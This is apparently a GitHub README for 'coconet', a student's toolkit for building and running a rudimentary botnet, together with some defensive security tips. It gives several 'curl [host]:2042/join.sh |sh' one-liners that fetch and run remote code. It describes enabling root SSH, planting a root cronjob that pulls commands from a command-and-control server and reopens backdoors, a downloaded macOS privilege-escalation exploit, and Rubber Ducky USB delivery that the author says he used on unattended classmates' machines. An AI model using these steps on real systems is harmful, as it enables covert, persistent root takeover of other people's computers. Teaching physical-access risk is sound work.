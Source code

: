 <img alt="Lynchburg College logo" src="https://bloximages.newyork1.vip.townnews.com/newsadvance.com/content/tncms/assets/v3/editorial/d/65/d65813d4-0da7-11e7-96af-4f86a016526b/58d0350ab3ae0.image.jpg" align="right" width=200>

# coconet
Code for building and administrating a rudimentary botnet.

**Please note that I strictly used this code for educational purposes. I do not and never have run a DDoSsing botnet or other such illegal operation and do not condone the use of this code for any malicious purpose.**

I used this code at the Virginia Residential Governor's School for Math, Science, and Technology to take over 36 Raspberry Pi microcomputers and Kali Linux desktops in the cybersecurity class in which I partook. This activity was part of the class, and I absolutely never violated any rules.

## Lessons Learned
Through developing this codebase, I learned a lot about networking, shell scripting, and especially security. I realized just how dangerous it can be to allow others physical access to one's computer, and as such I've been far more careful henceforth to follow common-sense security precautions.

Though I'd never use an attack like this against anyone without permission (outside the aforementioned scenario), there are people who certainly would. As such, owners of (especially portable) computers ought build some healthy security habits:

* Obviously, password-protect your device, and require authentication to log in after sleep.
* Remove any delay between closure of your device and the your screen lock becoming active. This may annoy you if you accidentally close the computer, but it will protect you from mistakenly thinking your computer is secure enough to be left alone when it won't be for five minutes.
* Never, ever leave your computer unlocked and/or unattended. By the end of my Governor's School class, I was able to seize total remote control as root with only 12 seconds of typing. Imagine what someone with genuine malevolent intentions could do if you let them touch your computer.
* If you must leave your computer unattended, close it to prevent anyone else taking over control when you walk away.

These changes won't solve every security problem, but they'll make it much harder for someone using a system like this one to break in.

## How it works
In brief, physical access can be used by an attacker to enter a simple command to download and run a shell script which will set up that computer as a new node in the network. This process involves enabling SSH and giving public key access to the root account, and adding a root cronjob to periodically download and run an update script from the Command & Control server (detailed below).

That update script will automatically reopen any backdoors which may have been closed since the last run. Code can be added to perform any task desired.

Thus, an operator may control nodes via SSH or by adding code for all nodes to run into update scripts. Reverse shells can also be used for finer control sans direct access network access for SSH.

### Command & Control
C&C is managed on ports `2042` & `2043` of a server.

Instructional scripts are served via HTTP on port `2042`. Run
```sh
python3 -m http.server 2042
```
from the `control` directory to make them available to nodes upon request.

A simple Python script opens a socket on port `2043` which listens for incoming data from nodes. All requests to the server are printed to the terminal, and important ones may be written into a file `nodes.txt`. Run
```sh
python3 server.py
```
after installing the dependencies listed in `requirements.txt` to listen for incoming data.

This process can be streamlined by using `./launch.sh` to automatically open two `tmux` windows with the appropriate commands.

### Joining
On macOS, two scripts are used to join a computer to the network, `join.sh` and `enact.sh`. `join.sh` allows one-command joining: it will download and decrypt an exploit needed to elevate (on OS X El Capitan) to a root shell and then run `enact.sh` in that root shell automatically. That script will handle joining the botnet. If you already have root access, you can just run `enact.sh` directly.

For GNU/Linux, there's just one script, `join.sh`, which must be executed as root or as a user with root privileges.

Here are simple one-liners to join the botnet:

Mac:
```sh
curl [host]:2042/mac/join.sh |sh
```
Linux:
```sh
curl [host]:2042/linux/join.sh |sh
```

To save time and keystrokes, you can use these shortcuts:
```sh
curl [host]:2042/jm |sh
curl [host]:2042/jl |sh
```

Or, to save even more time, you can skip the part where you think about what operating system the computer is using and simply type:
```sh
curl [host]:2042/join.sh |sh
```

Really in a hurry? There's a shortcut for this as well:
```sh
curl [host]:2042/j |sh
```

### Rubber Duck code
In the `duck` directory, you'll find Arduino code for delivering the join scripts automatically to macOS and Linux computers.

I used this code with a [Digispark ATTINY85](http://www.alibaba.com/product-detail/Digispark-kickstarter-development-board-ATTINY85-module_60411308561.html), though it can be easily modified to work with other Rubber Duck USBs based on Arduino.

During the cybersecurity class in which I developed `coconet`, I plugged the drive into users' computers while they weren't looking, saving me the inconvenience of having to attain keyboard access.

To upload this code to your drive, follow [this tutorial](https://www.youtube.com/watch?v=fGmGBa-4cYQ).

### Tools
Running `tools/run.sh` followed by a string giving the command you'd like to run will cause all nodes in `nodes.txt` (in your working directory) to run that command through SSH. This is less useful now that cron control exists. You can also run `up.sh` to view which/how many nodes on the current network are online.

## Licensing
This software was created by [Erik Boesen](https://github.com/ErikBoesen) and is available under the [MIT License](LICENSE).

I'm not affiliated with Lynchburg College in any way, nor does the college endorse this software.
